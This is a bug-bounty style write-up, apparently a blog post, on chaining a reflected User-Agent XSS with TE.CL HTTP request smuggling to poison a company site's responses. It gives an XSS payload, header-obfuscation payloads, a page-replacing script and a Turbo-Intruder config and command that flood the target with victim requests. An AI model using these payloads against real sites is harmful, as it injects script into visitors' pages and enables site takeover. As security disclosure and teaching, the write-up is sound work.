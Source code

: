 ```yaml
---
title: Exploiting HTTP Request Smuggling (TE.CL)- XSS to website takeover
updated: 2021-03-10 22:46
---
```

Even though HTTP Request Smuggling is documented back on 2005, it is still one of the least known Webapp vulnerability out there.

After a little break I decided to hunt a private company (which is not eligible for Bug Bounty, but still accepting reports) and what I found might be worth sharing.

## Reflected XSS in User-Agent Header

I have developed my own smart XSS fuzzing (which might be soon published) which tests both URL Endpoints and HTTP Headers. Luckily it found that User-Agent is being reflected. We can confirm it by manually send a request with Burp Suite:

![reflected_xss_burp](https://cdn-images-1.medium.com/max/800/1*M_stlWovazY6bcg702cbPQ.jpeg)

The word Exploitation is being reflected, let's put a simple XSS and break the Javascript String. The payload will look like this:

```
"><script>alert(`XSS`)</script>
```

We got XSS, nothing new and interesting by far. Mostly Private Programs don't accept this bug as in real cases, you can't send special-crafted HTTP request to an end user. Let's try to escalate this innocent-looking XSS into something more spicy.

## Recon and Detecting HTTP Request Smuggling

Burp Suite has a built-in Extension for this type of vulnerability, and it does test any kind of Smuggling while I do enumerating.


![burp_suite_extension](https://cdn-images-1.medium.com/max/800/1*WMItqq0i4OSHlL3q4ce7VQ.png)

Now let's perform automatic scans, go to **Repeater**, right click and click on **Launch Smuggle probe**.

![burp_suite_extension_right_click](https://cdn-images-1.medium.com/max/800/1*HuthN9dwqT5dvK_Ydu6s4w.png)

If HTTP Smuggling vulnerability  is detected, it will be issued on Target tab (it might take some minutes to perform the scans in the background)

![vuln_found_by_burp_extension](https://cdn-images-1.medium.com/max/800/1*-uByNsDX3Mr5056RZkc1uw.png)

## TE.CL Exploit Development

Before we craft our special-request in Burp Suite, go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked, this way our Content-Length value doesn't automatically change by Burp Suite, this is a crucial part on this kind of exploitation.

Below is our crafted payload. Keep in mind that the 2 headers (Transfer-Encoding, and Connection) must be always included. The first chunk (A x 1000) is going to be requested to the front-end server, it contains nothing malicious because it is just a regular request as an ordinary user would do. The reason why Content-length is 1007 (in the photo below is 1005, oops…), is because there are 1000*A + \r\n + 3e8 + b0. Which means 1000 + 2 + 3 + 2 = 1007 bytes. Note: b0 is still considered a part of the first request even though it defines the length of the smuggled request.

The second chunk of data is our smuggled request, if successful, we should get Error 404 requests as there is no directory **/404hopefully** on the website. 
After the second chunk, is mandatory to add x=1 or bunch of random data and two newlines after 0.

```
0\r\n\r\n
\r\n\r\n
```
![smuggling_request_development](https://cdn-images-1.medium.com/max/800/1*vO8vcAcB4AfDjCSvBFJY-g.jpeg)

Send this request to Turbo-Intruder and if we get any 404 Request, it means that our Special-Crafted request is sent to Back-End server.

![turbo_intruder_vuln_identification](https://cdn-images-1.medium.com/max/800/1*WtmzjvOS7UP-Ban2bQo5lA.png)

## Suffix Space Bypass - Obfuscating TE Header

We have to obfuscate the TE header, because one of the servers can be induced not to process it. This technique works on quite a few systems, but we can exploit many more by making the Transfer-Encoding header slightly harder to spot, so that one system doesn't see it. Here are some payloads by James Kettle:

```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

 Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
 : chunked
```

I used the whitespace as a bypass method.

![suffix_tab_bypass](https://cdn-images-1.medium.com/max/800/1*FdNCO994ZtOwLEuKfRn9iA.png)

## Poisoning response and website takeover

This is our final crafted request, the difference is that the XSS payload is added to the smuggled request in User-Agent Header (which we discovered before). Save it as request.txt to launch the attack with Turbo-Intruder:

![final_crafted_request](https://cdn-images-1.medium.com/max/800/1*rfYL92DvrQYO4d8ivafGRA.png)

Inside **script.js** is a simple code which generates a HTML website as a POC (kinda servers as a DOM XSS):

```
document.documentElement.innerHTML=String.fromCharCode(60, 104, 116, 109, 108, 62, 10, 60, 104, 49, 62, 85, 115, 101, 114, 39, 115, 32, 114, 101, 115, 112, 111, 110, 115, 101, 32, 105, 115, 32, 112, 111, 105, 115, 111, 110, 101, 100, 32, 119, 105, 116, 104, 32, 72, 84, 84, 80, 32, 82, 101, 113, 117, 101, 115, 116, 32, 83, 109, 117, 103, 103, 108, 105, 110, 103, 32, 97, 110, 100, 32, 88, 83, 83, 60, 47, 104, 49, 62, 10, 60, 47, 104, 116, 109, 108, 62, 10)
```

Here is our **setup.txt** which contains the configuration part of Turbo-Intruder:

```
#credits to https://hipotermia.pw/bb/http-desync-account-takeover
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=20,
                           requestsPerConnection=20,
                           resumeSSL=False,
                           timeout=10,
                           pipeline=False,
                           maxRetriesPerRequest=0
                           )
    engine.start()
    
    attack = target.req
    engine.queue(attack)
    
    victim = target.req
    for i in range(100000000):
        engine.queue(victim)
        time.sleep(0.05)
        
def handleResponse(req, interesting):
    table.add(req)
```

There is nothing much left to do, so fire up [Turbo-Intruder](https://github.com/PortSwigger/turbo-intruder/releases/tag/1.2.0) and poison everyone:

```
java -jar turbo-intruder-all.jar setup.txt request.txt https://www.target.com/ /
```

![turbo_intruder_poisoning_users](https://cdn-images-1.medium.com/max/800/1*4ZBYWE8VVbdPg090oNTN-g.jpeg)

As long as the Turbo-Intruder is being run, the XSS payload will be persistent on the website. Below is Javascript being executed:

![persistente_xss](https://cdn-images-1.medium.com/max/800/1*sNy8N8Q_DzAWnE82n8BOCw.jpeg)

### References:
References:
https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn
https://portswigger.net/web-security/request-smuggling
https://www.youtube.com/watch?v=JW2fM_GmidU&t=1s
